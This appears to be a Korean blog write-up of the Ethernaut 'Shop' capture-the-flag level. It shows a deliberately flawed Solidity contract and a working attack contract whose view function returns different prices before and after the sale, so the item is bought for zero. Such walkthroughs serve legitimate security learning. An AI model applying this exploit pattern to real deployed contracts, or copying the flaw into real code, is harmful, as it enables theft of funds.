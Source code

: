 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 21) Shop
date: '2022-02-07 13:43:00'
author: 한성원
tags: ethernaut Shop vulnerability 21
categories: 취약점분석
---
```



# 👋 1. Shop
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract에서 제시한 price보다 낮은 가격에 item 사기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
// Buyer의 Interface
interface Buyer {
    // price는 external view 함수이며 uint256을 return한다.
    function price() external view returns (uint);
}

contract Shop {

    // price가 100으로 설정됨    
    uint public price = 100;
    // 물건이 팔렸는지 확인하는 bool 값, initial value: false
    bool public isSold;

    // 물건을 사는 함수
    function buy() public {
        // _buyer를 msg.sender로 설정
        Buyer _buyer = Buyer(msg.sender);

        // 만약 _buyer.price가 100 이상이고, isSold가 false이면 진행
        if (_buyer.price() >= price && !isSold) {
            // 물건을 샀다!
            isSold = true;
            // price를 _buyer.price()로 바꾼다. 
            price = _buyer.price();
        }
    }
}
```
- - -

## 풀이
### 들어가기 전
먼저 힌트를 보자
1. 구매자가 사용할 상점
2. View 기능의 제한 사항 이해 (<- 중요한 부분)

우리는 view의 기능을 사용해 문제를 풀 수 있다.
<br/>

### 풀이
view를 어떻게 사용해야 Shop contract를 해킹 할 수 있을까?
다음 AttackContract를 확인해보자

```solidity
contract attackShop {

    Shop shop;

    // Shop contract를 shop으로 지정한다.
    constructor(address _shop) public {
        shop = Shop(_shop);
    }

    // shop의 buy()을 실행시키다.
    function attack() public {
        shop.buy();
    }

    // 만약 isSold가 true면 0을 return하고 false면 100을 return한다
    function price() public view returns(uint) {
        return shop.isSold() ? 0:100;
    }
}

```
<br/>

이 문제는 [Eelevator 문제](https://holyhansss.github.io/ethernaut/11_elevator_ethernaut/11_elevator_ethernaut/)와 비슷한 문제이다.

위 코드를 가지고 공격 시나리오를 생각해보자
1. attackShop contract를 Shop의 address를 인자로하여 배포한다.
2. attackShop.attack()을 실행시킨다.
3. Shop.buy()에서 if문을 통과하고 isSold가 true로 바뀐다.
4. attackShop.price()는 isSold가 true기 때문에 Shop.price()를 0으로 바꾼다.

<br/>

![isSold](./isSold.png)

위와 같은 시나리오로 isSold가 true가 되었고 price가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```